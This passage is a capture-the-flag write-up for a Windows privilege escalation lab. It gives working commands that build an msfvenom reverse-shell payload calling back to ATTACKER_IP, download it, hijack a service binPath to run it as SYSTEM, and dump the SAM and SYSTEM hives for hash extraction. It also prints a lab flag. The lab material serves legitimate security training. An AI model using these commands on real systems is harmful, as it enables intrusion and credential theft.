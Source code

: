 ```
1. Create a payload: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`
2. Start a on local machine server: `python3 -m http.server`
3. Then Start a listener on local machine: `nc -lvp 4447`
4. Download the file from Powershell on the target machine(teyhackme lab): `wget http://ATTACKER_IP:8000/rev_svc3.exe -o rev_svc3.exe`
5. Change the permissions: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
6. In target cmd configure the binPath by following command: `sc config THMService binPath= “C:\Users\thm-unpriv\rev-svc3.exe” obj= LocalSystem`
7. To trigger our payload, all that rests is restarting the service:
```
sc stop THMService
sc start THMService
```
You should have received a reverse shell. Then find the flag on the administrator’s desktop and read it.
![Receiving a shell & Reading the flag](images/administrator_flag.png)
#### Answer: THM{INSECURE_SVC_CONFIG}

## Task 6: Abusing dangerous privileges
1. Privileges Overview:
   - Privileges grant rights to perform system tasks like shutting down the system or bypassing access controls. Key privileges are of interest to attackers for escalating privileges.
   - The `whoami /priv` command shows the privileges of the current user.
2. SeBackup / SeRestore Privileges:
   - Description: These privileges allow bypassing DACLs to read/write any file, useful for backup operations.
   - Exploitation: Attackers can use these privileges to copy registry hives (SAM and SYSTEM) and extract password hashes. Tools like Impacket’s `secretsdump` can be used to retrieve the hashes and then perform Pass-the-Hash attacks to gain SYSTEM access.
3. SeTakeOwnership Privilege:
   - Description: Allows users to take ownership of any file or object on the system.
   - Exploitation: An attacker can use this privilege to replace system executables (like utilman.exe), giving themselves SYSTEM-level access. The process includes taking ownership of the file, granting full permissions, and replacing the executable with a payload.
4. SeImpersonate / SeAssignPrimaryToken Privileges:
   - Description: These privileges allow a process to impersonate another user, enabling it to act on their behalf.
   - Exploitation: Attackers can exploit these privileges by compromising services like IIS, which use accounts with impersonation privileges (e.g., LOCAL SERVICE, NETWORK SERVICE). Using tools like RogueWinRM, an attacker can spawn a process that impersonates a privileged user (e.g., SYSTEM) and execute commands remotely via a malicious connection.

These privileges represent common opportunities for attackers to escalate their privileges and gain more control over a compromised system.
### Q: Get the flag on the Administrator's desktop.
In this task, we can decide between three different methods: SeBackup / SeRestore, SeTakeOwnership, SeImpersonate / SeAssignPrimaryToken. I will pick the Backup route as it seems to involve of a few techniques I find great to learn.
RDP into the target machine, for example by using `Remmina` on your **AttackBox**. When logged in you can go ahead and run a command prompt **as administrator**.
You should now be able to see your privileges with the command: `whoami /priv`
![Checking our privileges](images/checking_privilege.png)

Bypass traverse checking allows to backup SAM and SYSTEM hashes with the following commands:
```
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
Make sure the backups are in the directory:

![Checking if the backup hive files are saved](images/cjecking_hivefiles.png)

```